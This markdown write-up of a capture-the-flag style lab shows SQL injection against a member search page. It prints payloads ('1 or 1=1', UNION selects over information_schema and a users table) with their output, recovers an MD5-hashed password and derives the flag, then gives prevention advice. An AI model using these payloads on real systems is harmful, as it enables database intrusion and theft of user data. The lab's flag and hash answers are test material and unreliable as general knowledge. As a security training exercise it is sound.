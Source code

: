 # Description

Visiting the 'member' page, it display a search field that search for members by id.

Trying a basic sql injection test, putting a single quite in the search field a submit.

We got an sql syntax error:
`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`

Then trying `1 or 1=1` will gives all members in the database:

```
ID: 1 or 1=1 
First name: one
Surname : me

ID: 1 or 1=1 
First name: two
Surname : me

ID: 1 or 1=1 
First name: three
Surname : me

ID: 1 or 1=1 
First name: Flag
Surname : GetThe
```

# Attack

Now let's try to determine the SQL request 

As it seems from the last input the SQL request only retreive 2 columns so we will need to inject those columns with data from database.

Now let's look for all the databases names in the database using this sql injection.

    `0 UNION select table_name,column_name from information_schema.columns`

As you will see below we got the users database informations

```
ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : user_id

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : first_name

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : last_name

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : town

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : country

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : planet

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : Commentaire

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : countersign
```

Now we will try to see what all users has on the `Commnetaire` Column, It may be something interesting.

    0 UNION select concat(first_name, last_name),concat(user_id,town,country,0,countersign,Commentaire) from users

```
ID:   0 UNION select concat(first_name, last_name),concat(user_id,town,country,0,countersign,Commentaire) from users 
First name: FlagGetThe
Surname : 5424205ff9d0165b4f92b14994e5c685cdce28Decrypt this password -> then lower all the char. Sh256 on it and it's good !

```
As you can see the user Flag Has this string result `5ff9d0165b4f92b14994e5c685cdce28 Decrypt this password -> then lower all the char. Sh256 on it and it's good !`

Now decripting it with md5: 5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo

fortytwo (sha256): 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Prevent
To prevent SQL injection vulnerabilities, follow these measures:

- Use prepared statements with parameterized queries to separate SQL code from user input.
- Implement input validation and sanitize user inputs to prevent malicious input.
- Employ a Web Application Firewall (WAF) to detect and block malicious SQL injection attempts.
